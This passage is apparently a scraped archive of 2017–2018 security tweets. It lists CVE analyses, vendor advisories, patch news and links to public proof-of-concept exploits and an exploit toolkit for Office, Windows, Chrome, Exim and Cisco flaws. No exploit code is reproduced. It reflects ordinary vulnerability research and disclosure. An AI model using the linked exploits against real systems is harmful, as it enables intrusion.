<td>Favorites: <code>63</code></td>
</tr></table>

---
# matthias_kaiser
**https://twitter.com/matthias_kaiser/status/1007614242231586816 _at Fri Jun 15 13:22:10 +0000 2018_**
<blockquote>
For the COM lovers -  My analysis of CVE-2018-0624 with POC :-) https://t.co/kfPqpm9T6O
</blockquote>

* https://twitter.com/codewhitesec/status/1007614010504765440

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>145</code></td>
</tr></table>

---
# 360CoreSec
**https://twitter.com/360CoreSec/status/1004703755806257152 _at Thu Jun 07 12:36:56 +0000 2018_**
<blockquote>
CVE-2018-5002 – Analysis of the Second Wave of Flash Zero-day Exploit in 2018... https://t.co/gwuLu68o68
</blockquote>

* http://blogs.360.cn/blog/cve-2018-5002-en/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---
# ddouhine
**https://twitter.com/ddouhine/status/1003211078623551488 _at Sun Jun 03 09:45:34 +0000 2018_**
<blockquote>
UAF exploit in WebKit's JavaScriptCore library (CVE-2016-4657) landed in @metasploit !! First #iOS exploit in #metasploit since 2012 and one of the vuln used by the #Pegasus spyware. Awesome project by @timwr backed up by @qwertyoruiopz @s1guza @thimstar works #PhoenixNonce https://t.co/0d63HeXVex
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>150</code></td>
<td>Favorites: <code>286</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/1001074883537891328 _at Mon May 28 12:17:05 +0000 2018_**
<blockquote>
Very good reads + exploit for Microsoft Windows PML4 Privilege Escalation Vulnerability (CVE-2018-1038) by Ulf Frisk:
https://t.co/CgqEmCCl2K
https://t.co/6KwYP124fM
https://t.co/54NSnwelsE
</blockquote>

* http://blog.frizk.net/2018/03/total-meltdown.html
* https://blog.xpnsec.com/total-meltdown-cve-2018-1038/
* https://www.exploit-db.com/exploits/44581/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>204</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/996679610405408774 _at Wed May 16 09:11:51 +0000 2018_**
<blockquote>
Vulnerability Details / Exploitation of Recent (Zero-day) WIN32K SetImeInfoEx NULL Pointer Dereference Vulnerability (CVE-2018-8120) by Leeqwind:
https://t.co/Stm8TX3pOq
</blockquote>

* https://xiaodaozhi.com/exploit/156.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---
# dimitribest
**https://twitter.com/dimitribest/status/994282296223174671 _at Wed May 09 18:25:46 +0000 2018_**
<blockquote>
The King is dead. Long live the King! - Root cause analysis of the latest Internet Explorer zero day – CVE-2018-8174

 https://t.co/8SItwd60xC 
#IE #0day https://t.co/nz56jjb4aK
</blockquote>

* https://securelist.com/root-cause-analysis-of-cve-2018-8174/85486/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>117</code></td>
</tr></table>

---
# 360CoreSec
**https://twitter.com/360CoreSec/status/994166078585491456 _at Wed May 09 10:43:58 +0000 2018_**
<blockquote>
Analysis of CVE-2018-8174 VBScript 0day and APT actor related to Office targeted attack... https://t.co/OltmxiYBIP
</blockquote>

* http://blogs.360.cn/blog/cve-2018-8174-en/

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>197</code></td>
<td>Favorites: <code>282</code></td>
</tr></table>

---
# buffaloverflow
**https://twitter.com/buffaloverflow/status/994118847048437760 _at Wed May 09 07:36:17 +0000 2018_**
<blockquote>
Hash for this sample was:
https://t.co/1RVOzKtTBF

CVE-2018-8174 IE #0day. Great analysis here:
https://t.co/vlIifdznRl https://t.co/WKTd7Iz7TA
</blockquote>

* https://www.virustotal.com/#/file/10ceb5916cd90e75f8789881af40287c655831c5086ae1575b327556b63cdb24/
* https://securelist.com/root-cause-analysis-of-cve-2018-8174/85486/
* https://twitter.com/buffaloverflow/status/989798880295444480

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>91</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/989923796252585984 _at Fri Apr 27 17:46:39 +0000 2018_**
<blockquote>
DoS to DeAnonymization —  @PaulosYibelo find a flaw (CVE-2018-10308) in SaferVPN's chrome extension that leaks users' real IP address.

If a site tries to resolve non-existent domains continually, SaferVPN extension kills itself, leaving user uncovered.

https://t.co/SUhQ2LKkip
</blockquote>

* http://www.paulosyibelo.com/2018/04/safervpn-cve-2018-10308-from-dos-to-ip.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---
# Leeqwind
**https://twitter.com/Leeqwind/status/988011700812107776 _at Sun Apr 22 11:08:40 +0000 2018_**
<blockquote>
CVE-2015-2546 use-after-free analysis and exploitation: [zh]https://t.co/hAbgxzxlc5 [en]https://t.co/6CLw4r08RP - similar to and different from CVE-2017-0263 https://t.co/mXI1965rGR
</blockquote>

* https://xiaodaozhi.com/exploit/122.html
* https://xiaodaozhi.com/exploit/132.html

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/985952133206900736 _at Mon Apr 16 18:44:41 +0000 2018_**
<blockquote>
Proof-of-Concept (PoC) exploit for Windows CredSSP remote code execution vulnerability (CVE-2018-0886) is now available

Exploit Code — https://t.co/OC2wQlqA1T

Details — https://t.co/5fxl1C1v50

CredSSP RDP flaw affects all versions of Windows. https://t.co/EXPAvQw4Kl
</blockquote>

* https://github.com/preempt/credssp
* https://thehackernews.com/2018/03/credssp-rdp-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>377</code></td>
<td>Favorites: <code>404</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/983826111078559744 _at Tue Apr 10 21:56:38 +0000 2018_**
<blockquote>
Microsoft also released a patch for another critical RCE flaw (CVE-2018-1004), which exists in Windows VBScript Engine &amp; affects all versions of Windows.

"An attacker could host a specially crafted website that is designed to exploit the vulnerability through IE," MS explains
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---
# CyberWarship
**https://twitter.com/CyberWarship/status/982890682904989696 _at Sun Apr 08 07:59:34 +0000 2018_**
<blockquote>
CVE-2018-0752 - Exploit

Microsoft Windows - NtImpersonateAnonymousToken LPAC to Non-LPAC Privilege Escalation

#infosec #pentest #exploit 
https://t.co/yGn0mCRtLq https://t.co/W5w7KRAZtL
</blockquote>

* https://www.exploit-db.com/exploits/43516/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---
# Yalujb
**https://twitter.com/Yalujb/status/982881935683829762 _at Sun Apr 08 07:24:49 +0000 2018_**
<blockquote>
Google Project Zero publishes WebKit bug (CVE-2018-4121) along with write-up and PoC. It achieves sandbox escape in iOS 11.2.6. #security #update
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---
# x9090
**https://twitter.com/x9090/status/980944786696822784 _at Mon Apr 02 23:07:16 +0000 2018_**
<blockquote>
My differential analysis to find out the root cause of Word UAF vulnerability CVE-2018-0797. #AlleyCat and #Lighthouse plugins users might want to check this out as there are some improvements for these tools https://t.co/tYqvsLzJeD
</blockquote>

* https://www.fortinet.com/blog/threat-research/a-root-cause-analysis-of-cve-2018-0797---rich-text-format-styles.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---
# mehqq_
**https://twitter.com/mehqq_/status/971049724705882114 _at Tue Mar 06 15:47:50 +0000 2018_**
<blockquote>
Found another off-by-one remote code execution vulnerability (CVE-2018-6789) in Exim mail server! It was challenging but interesting and we finally achieve RCE and bypass mitigations (ASLR, NX …) successfully. Details here:
https://t.co/41B0sprlyV
</blockquote>

* https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>486</code></td>
<td>Favorites: <code>646</code></td>
</tr></table>

---
# _odisseus
**https://twitter.com/_odisseus/status/964033536440270848 _at Thu Feb 15 07:08:00 +0000 2018_**
<blockquote>
Public disclosure – 14/2/2018: Remote Code Execution (RCE) CVE-2018-5767 on #Tenda Router AC15. Credits: @__invictus_  cc: @MalwareMustDie 
#MalwareMustDie 
https://t.co/PCbRUHVkXI https://t.co/uG3o0Qo5Xb
</blockquote>

* https://www.fidusinfosec.com/remote-code-execution-cve-2018-5767/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/958065422942724096 _at Mon Jan 29 19:52:51 +0000 2018_**
<blockquote>
Remote code execution (RCE) and Denial of service (DoS) vulnerability (CVE-2018-0101) discovered in the SSL VPN functionality of Cisco Adaptive Security Appliance. 

https://t.co/ZFTV93cLqM https://t.co/fo7kdGmZNb
</blockquote>

* https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180129-asa1

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>139</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/957868744994443264 _at Mon Jan 29 06:51:19 +0000 2018_**
<blockquote>
Google Chrome V8 Use-After-Free Vulnerability + Exploit by Zhao Qixun (CVE-2017-15399):
https://t.co/gynSV1v7D0
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=776677

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>97</code></td>
<td>Favorites: <code>116</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/953974245792477186 _at Thu Jan 18 12:55:58 +0000 2018_**
<blockquote>
Hackers found exploiting following Microsoft Office flaws to install Zyklon botnet malware on targeted computers:

→ MS Office RCE Vulnerability (CVE-2017-11882)
→ .NET Framework RCE Vulnerability (CVE-2017-8759)
→ Dynamic Data Exchange (DDE Exploit)

https://t.co/XGEsOT7zjg
</blockquote>

* https://thehackernews.com/2018/01/microsoft-office-malware.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---
# nuria_imeq
**https://twitter.com/nuria_imeq/status/950860665719312384 _at Tue Jan 09 22:43:43 +0000 2018_**
<blockquote>
CVE-2017-0243 PoC #exploit
Description:
Microsoft Office allows a remote code execution vulnerability due to the way that it handles objects in memory, aka "Microsoft Office Remote Code Execution Vulnerability".
https://t.co/D87FLMNZRW
</blockquote>

* https://github.com/rxwx/CVE-2017-8570

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---
# bellis1000
**https://twitter.com/bellis1000/status/945683217880842242 _at Tue Dec 26 15:50:23 +0000 2017_**
<blockquote>
The videos will assume you already have a basic knowledge of programming, assembly language and exploitation. Part 1 will cover CVE-2016-4655 - the kernel information leak vulnerability. Part 2 will cover CVE-2016-4656 - the kernel UAF
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---
# bellis1000
**https://twitter.com/bellis1000/status/944268776261988352 _at Fri Dec 22 18:09:54 +0000 2017_**
<blockquote>
Progress! Successfully exploited CVE-2016-4655 to leak data from the kernel stack &amp; calculate the KASLR slide :) time to look at the CVE-2016-4656 UAF next https://t.co/qGwkdBW6AD
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>44</code></td>
<td>Favorites: <code>275</code></td>
</tr></table>

---
# Intrinsec
**https://twitter.com/Intrinsec/status/944207098853904384 _at Fri Dec 22 14:04:49 +0000 2017_**
<blockquote>
Vulnerability disclosure: #CVE-2017-7344
Get SYSTEM privileges from the Windows logon screen by abusing the @Fortinet VPN client: #FortiClient (privilege escalation #privesc)
➡️https://t.co/hsHeLWfx5u (#exploit steps included 💣)
</blockquote>

* https://securite.intrinsec.com/2017/12/22/cve-2017-7344-fortinet-forticlient-windows-privilege-escalation-at-logon/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/939024972248256512 _at Fri Dec 08 06:52:54 +0000 2017_**
<blockquote>
Microsoft Issues Emergency Windows Security Update For A Critical RCE Vulnerability (CVE-2017-11937) In Its Malware Protection Engine—Patch Now.

https://t.co/x5BjpPOJEA

Flaw Allows Attackers to Take Full Control of Your PC Remotely. https://t.co/cDvgFWIe2r
</blockquote>

* https://thehackernews.com/2017/12/windows-update-malware-protection.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>356</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---
# unix_root
**https://twitter.com/unix_root/status/935937694621978628 _at Wed Nov 29 18:25:09 +0000 2017_**
<blockquote>
Hackers Exploit Recently Disclosed Microsoft Office RCE Vulnerability (CVE-2017-11882) to Install Cobalt Backdoor On Computers.

https://t.co/l8ZE3OfRZK

Make sure you have the latest MS Office update installed. https://t.co/XexazLBM5F
</blockquote>

* https://thehackernews.com/2017/11/cobalt-strike-malware.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/935814102886227968 _at Wed Nov 29 10:14:03 +0000 2017_**
<blockquote>
Hackers Exploit Recently Disclosed Microsoft Office RCE Vulnerability (CVE-2017-11882) to Install Cobalt Backdoor On Computers.

https://t.co/ZtE0RwXJ7p

Make sure you have the latest MS Office update installed. https://t.co/ZOz8MVoQw9
</blockquote>

* https://thehackernews.com/2017/11/cobalt-strike-malware.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>213</code></td>
<td>Favorites: <code>181</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/935086979028541440 _at Mon Nov 27 10:04:43 +0000 2017_**
<blockquote>
Critical Vulnerabilities Found in 'Exim' Mail Transfer Agent (MTA) Application:

■ Remote Code Execution (CVE-2017-16943) — PoC Released
■ Denial Of Service (CVE-2017-16944)  — PoC Released

Patch Update — Exim version 4.90 RC2

https://t.co/Cv6FVvRJIL https://t.co/5Ary4wLtCQ
</blockquote>

* https://thehackernews.com/2017/11/exim-internet-mailer-flaws.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>211</code></td>
<td>Favorites: <code>145</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/932982763569012737 _at Tue Nov 21 14:43:19 +0000 2017_**
<blockquote>
CVE-2017-11853: Windows Kernel stack memory disclosure in win32k!xxxSendMenuSelect (bypass kernel ASLR) https://t.co/xn44FEjxYN #windows #vulnerability
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=1362

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/930739383094988801 _at Wed Nov 15 10:08:55 +0000 2017_**
<blockquote>
17-Year-Old Microsoft Office RCE Vulnerability (CVE-2017-11882) Allows Hackers to Install Malware On Windows PCs Without User Interaction

https://t.co/AUA99KSVs9 https://t.co/IEcsoKpgPd
</blockquote>

* https://thehackernews.com/2017/11/microsoft-office-rce-exploit.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>449</code></td>
<td>Favorites: <code>369</code></td>
</tr></table>

---
# GossiTheDog
**https://twitter.com/GossiTheDog/status/930732664981684224 _at Wed Nov 15 09:42:14 +0000 2017_**
<blockquote>
There’s a big difference between Microsoft’s statements about CVE-2017-11882 (Office exploit) vs the reporters. The reporters claim they have an exploit, Microsoft say no exploit. MS only say Important, reporters say no prompt RCE.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
# evdokimovds
**https://twitter.com/evdokimovds/status/930570227330568192 _at Tue Nov 14 22:56:46 +0000 2017_**
<blockquote>
RCE (CVE-2017-11882):
⚠️all the MS Office versions
⚠️all the MS Windows versions
⚠️x86/x86_64
⚠️does not require any interaction with a user
⚠️does not interrupt a user’s work with MS Office
❗️with stable exploitation ;) https://t.co/fWeggTRLoJ
</blockquote>

* https://twitter.com/_embedi_/status/930498911676108801

<table><tr>
<td>Quotes: <code>26</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>448</code></td>
<td>Favorites: <code>504</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/930425235358314496 _at Tue Nov 14 13:20:37 +0000 2017_**
<blockquote>
Chrome &lt; 62 uxss exploit (CVE-2017-5124) https://t.co/OyOnzEQau4 #Chrome #0day #vulnerability
</blockquote>

* https://github.com/Bo0oM/CVE-2017-5124

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>85</code></td>
</tr></table>

---
# HaifeiLi
**https://twitter.com/HaifeiLi/status/923607702588100608 _at Thu Oct 26 17:50:10 +0000 2017_**
<blockquote>
It's finally out.. Quick analysis on the latest Office #0day CVE-2017-11826. https://t.co/OqtuEbYxQx.
</blockquote>

* https://securingtomorrow.mcafee.com/mcafee-labs/analyzing-microsoft-office-zero-day-exploit-cve-2017-11826-memory-corruption-vulnerability

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---
# PhysicalDrive0
**https://twitter.com/PhysicalDrive0/status/923568124213022721 _at Thu Oct 26 15:12:54 +0000 2017_**
<blockquote>
Analyzing Microsoft Office Zero-Day Exploit CVE-2017-11826: Memory Corruption Vulnerability https://t.co/f5N4W7NvJy
</blockquote>

* https://securingtomorrow.mcafee.com/mcafee-labs/analyzing-microsoft-office-zero-day-exploit-cve-2017-11826-memory-corruption-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---
# nickstadb
**https://twitter.com/nickstadb/status/922118171573800960 _at Sun Oct 22 15:11:18 +0000 2017_**
<blockquote>
Analysis of CVE-2017-12628 - Apache James Deserialization LPE/potential RCE https://t.co/Sfv2U25UBm
</blockquote>

* https://nickbloor.co.uk/2017/10/22/analysis-of-cve-2017-12628/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/914754961170460672 _at Mon Oct 02 07:32:32 +0000 2017_**
<blockquote>
Google Chrome sandbox escape due to use of invalid PP_Instance (CVE-2017-5092) by Yuan Deng:
https://t.co/4dGrjktiEL
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=733549

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/909355342542327809 _at Sun Sep 17 09:56:23 +0000 2017_**
<blockquote>
Analysis of CVE-2017-5638 (Apache Struts 2 RCE) https://t.co/un4wVq9B1B #equihax #equifax #vulnerability https://t.co/fHTTuGrdRA
</blockquote>

* https://blog.gdssecurity.com/labs/2017/3/27/an-analysis-of-cve-2017-5638.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>159</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/908767937074515973 _at Fri Sep 15 19:02:14 +0000 2017_**
<blockquote>
Exploit toolkit for CVE-2017-8759 - Microsoft .NET Framework RCE (Builder + listener + video tutorial) https://t.co/uz05I6NUzv
</blockquote>

* http://seclists.org/fulldisclosure/2017/Sep/33

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---
# Dinosn
**https://twitter.com/Dinosn/status/906205737893945348 _at Fri Sep 08 17:20:59 +0000 2017_**
<blockquote>
CVE-2017-9805: Analysis of Apache Struts RCE Vulnerability in REST Plugin https://t.co/B7cGt2NQU0
</blockquote>

* https://www.imperva.com/blog/2017/09/cve-2017-9805-analysis-of-apache-struts-rce-vulnerability-in-rest-plugin/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---
# l4wio
**https://twitter.com/l4wio/status/905279567060926464 _at Wed Sep 06 04:00:42 +0000 2017_**
<blockquote>
Achievement unlocked!
My first UAF on Chrome
CVE-2017-5111
https://t.co/dFWRURLjdv
</blockquote>

* https://chromereleases.googleblog.com/2017/09/stable-channel-update-for-desktop.html?m=1

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>143</code></td>
</tr></table>

---
# malware_sec
**https://twitter.com/malware_sec/status/896775104524414976 _at Sun Aug 13 16:47:00 +0000 2017_**
<blockquote>
A proof-of-concept local root exploit for CVE-2017-1000112.
Includes KASLR and SMEP bypasses. No SMAP bypass. https://t.co/dnRh8HFbYy
</blockquote>

* https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-1000112/poc.c

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---
# HaifeiLi
**https://twitter.com/HaifeiLi/status/887426940604268544 _at Tue Jul 18 21:40:44 +0000 2017_**
<blockquote>
Detailed analysis of the mysterious Windows Search zero-day attack CVE-2017-8543 patched last month. https://t.co/196iaBv0fz, in Chinese.
</blockquote>

* http://mp.weixin.qq.com/s/X2JcKCpCH4exDoxMK5oN5Q

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/887276364549705728 _at Tue Jul 18 11:42:24 +0000 2017_**
<blockquote>
Critical Remote Code Execution (CVE-2017-6753) Vulnerability in #Cisco WebEx Browser Extensions for Chrome &amp; Firefox https://t.co/3CePZWkbk9
</blockquote>

* http://thehackernews.com/2017/07/cisco-webex-vulnerability.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>169</code></td>
<td>Favorites: <code>122</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/886858802598957056 _at Mon Jul 17 08:03:10 +0000 2017_**
<blockquote>
Mozilla Firefox DEP and ASLR Bypass Using ASM.JS JIT-Spray (CVE-2017-5375 and CVE-2017-5400):
https://t.co/VfRN44aIjk
</blockquote>

* https://rh0dev.github.io/blog/2017/the-return-of-the-jit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/885899918040195072 _at Fri Jul 14 16:32:54 +0000 2017_**
<blockquote>
Eternal Synergy Exploit Analysis (Windows SMB Remote Code Execution Vulnerability: CVE-2017-0143) https://t.co/zbSJb4kEgE
</blockquote>

* https://blogs.technet.microsoft.com/srd/2017/07/13/eternal-synergy-exploit-analysis/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---
# hosselot
**https://twitter.com/hosselot/status/884683648880005120 _at Tue Jul 11 07:59:53 +0000 2017_**
<blockquote>
Git commit for Pwn2Own Microsoft Edge Chakra ArrayBuffer Use-After-Free vulnerability (CVE-2017-0236):
https://t.co/BHZmGipTWD
</blockquote>

* https://github.com/Microsoft/ChakraCore/pull/2959/commits/1ae7e3ce95515758b4cd7215cb4e48539a0f4031

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# mkolsek
**https://twitter.com/mkolsek/status/877499744704237568 _at Wed Jun 21 12:13:36 +0000 2017_**
<blockquote>
A quick analysis of Microsoft's patch for LNK Remote Code Execution Vulnerability (CVE-2017-8464) https://t.co/NvNSlDwYds
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---
# PyroTek3
**https://twitter.com/PyroTek3/status/874804935547904002 _at Wed Jun 14 01:45:24 +0000 2017_**
<blockquote>
Patch your critical Windows servers ASAP against this SMB vulnerability: 
CVE-2017-8543 Windows Search RCE Vuln 
https://t.co/OFyKWgtl75 https://t.co/pl4nJtjh4E
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8543

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---
# JGamblin
**https://twitter.com/JGamblin/status/872177569348694017 _at Tue Jun 06 19:45:11 +0000 2017_**
<blockquote>
CVE-2017-3881 Cisco Catalyst RCE Proof-Of-Concept.  https://t.co/XrgK8ym4ta
</blockquote>

* https://artkond.com/2017/04/10/cisco-catalyst-remote-code-execution/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/869461341584715776 _at Tue May 30 07:51:52 +0000 2017_**
<blockquote>
Windows MsMpEng remotely exploitable UaF due to design issue in GC engine (CVE-2017-8540) https://t.co/EWM739NZZA #vulnerability #windows
</blockquote>

* https://bugs.chromium.org/p/project-zero/issues/detail?id=1258

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---
# x0rz
**https://twitter.com/x0rz/status/864129198625091584 _at Mon May 15 14:43:50 +0000 2017_**
<blockquote>
Micropatching CVE-2017-0290 (Windows Malware Protection Engine RCE) https://t.co/0IgEw106KY #vulnerability #patching https://t.co/dbEsndhJfT
</blockquote>

* https://0patch.blogspot.fr/2017/05/0patching-worst-windows-remote-code.html

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>103</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/861862540040482818 _at Tue May 09 08:36:56 +0000 2017_**
<blockquote>
